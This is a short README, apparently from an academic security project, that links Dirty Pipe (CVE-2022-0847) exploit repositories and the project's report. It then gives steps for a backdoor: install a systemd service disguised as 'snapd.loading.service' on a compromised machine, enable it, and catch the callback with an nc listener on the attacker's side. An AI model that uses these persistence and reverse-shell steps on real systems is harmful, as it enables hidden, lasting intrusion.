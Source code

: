 # Detailed information about this project can be found in our final project report and presentation 
https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Final%20report.pdf 
https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Project%20Presentation.pdf

# Reference to CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, place the snapd.loading.service in /etc/systemd/system folder. And run `$ sudo systemctl enable snapd.loading.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


